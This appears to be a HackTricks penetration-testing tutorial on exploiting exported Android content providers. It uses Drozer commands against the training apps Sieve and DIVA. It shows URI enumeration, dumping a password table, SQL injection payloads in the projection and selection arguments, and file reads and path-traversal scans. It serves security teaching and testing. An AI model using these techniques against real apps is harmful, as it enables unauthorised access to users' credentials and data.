 # Exploiting Content Providers

## Exploiting Content Providers

{{#include ../../../banners/hacktricks-training.md}}

## Intro

Data is **supplied from one application to others** on request by a component known as a **content provider**. These requests are managed through the **ContentResolver class** methods. Content providers can store their data in various locations, such as a **database**, **files**, or over a **network**.

In the _Manifest.xml_ file, the declaration of the content provider is required. For instance:

```xml
<provider android:name=".DBContentProvider" android:exported="true" android:multiprocess="true" android:authorities="com.mwr.example.sieve.DBContentProvider">
    <path-permission android:readPermission="com.mwr.example.sieve.READ_KEYS" android:writePermission="com.mwr.example.sieve.WRITE_KEYS" android:path="/Keys"/>
</provider>
```

To access `content://com.mwr.example.sieve.DBContentProvider/Keys`, the `READ_KEYS` permission is necessary. It's interesting to note that the path `/Keys/` is accessible in the following section, which is not protected due to a mistake by the developer, who secured `/Keys` but declared `/Keys/`.

**Maybe you can access private data or exploit some vulnerability (SQL Injection or Path Traversal).**

## Get info from **exposed content providers**

```
dz> run app.provider.info -a com.mwr.example.sieve
  Package: com.mwr.example.sieve
  Authority: com.mwr.example.sieve.DBContentProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.DBContentProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
  Path Permissions:
  Path: /Keys
  Type: PATTERN_LITERAL
  Read Permission: com.mwr.example.sieve.READ_KEYS
  Write Permission: com.mwr.example.sieve.WRITE_KEYS
  Authority: com.mwr.example.sieve.FileBackupProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.FileBackupProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
```

It's possible to piece together how to reach the **DBContentProvider** by starting URIs with “_content://_”. This approach is based on insights gained from using Drozer, where key information was located in the _/Keys_ directory.

Drozer can **guess and try several URIs**:

```
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

You should also check the **ContentProvider code** to search for queries:

![](<../../../images/image (121) (1) (1) (1).png>)

Also, if you can't find full queries you could **check which names are declared by the ContentProvider** on the `onCreate` method:

![](<../../../images/image (564).png>)

The query will be like: `content://name.of.package.class/declared_name`

## **Database-backed Content Providers**

Probably most of the Content Providers are used as **interface** for a **database**. Therefore, if you can access it you could be able to **extract, update, insert and delete** information.\
Check if you can **access sensitive information** or try to change it to **bypass authorisation** mechanisms.

When checking the code of the Content Provider **look** also for **functions** named like: _query, insert, update and delete_:

![](<../../../images/image (887).png>)

![](<../../../images/image (254) (1) (1) (1) (1) (1) (1) (1).png>)

Because you will be able to call them

### Query content

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w==
-
email: incognitoguy50@gmail.com
```

### Insert content

Quering the database you will learn the **name of the columns**, then, you could be able to insert data in the DB:

![](<../../../images/image (98).png>)

![](<../../../images/image (173).png>)

_Note that in insert and update you can use --string to indicate string, --double to indicate a double, --float, --integer, --long, --short, --boolean_

### Update content

Knowing the name of the columns you could also **modify the entries**:

![](<../../../images/image (780).png>)

### Delete content

![](<../../../images/image (423).png>)

### **SQL Injection**

It is simple to test for SQL injection **(SQLite)** by manipulating the **projection** and **selection fields** that are passed to the content provider.\
When quering the Content Provider there are 2 interesting arguments to search for information: _--selection_ and _--projection_:

![](<../../../images/image (784).png>)

You can try to **abuse** this **parameters** to test for **SQL injections**:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
```

**Automatic SQLInjection discovery by Drozer**

```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run scanner.provider.sqltables -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Accessible tables for uri content://jakhar.aseem.diva.provider.notesprovider/notes/:
  android_metadata
  notes
  sqlite_sequence
```

## **File System-backed Content Providers**

Content providers could be also used to **access files:**

![](<../../../images/image (407).png>)

### Read **file**

You can read files from the Content Provider

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```

### **Path Traversal**

If you can access files, you can try to abuse a Path Traversal (in this case this isn't necessary but you can try to use "_../_" and similar tricks).

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
127.0.0.1            localhost
```

**Automatic Path Traversal discovery by Drozer**

```
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```

## References

- [https://www.tutorialspoint.com/android/android_content_providers.htm](https://www.tutorialspoint.com/android/android_content_providers.htm)
- [https://manifestsecurity.com/android-application-security-part-15/](https://manifestsecurity.com/android-application-security-part-15/)
- [https://labs.withsecure.com/content/dam/labs/docs/mwri-drozer-user-guide-2015-03-23.pdf](https://labs.withsecure.com/content/dam/labs/docs/mwri-drozer-user-guide-2015-03-23.pdf)

{{#include ../../../banners/hacktricks-training.md}}



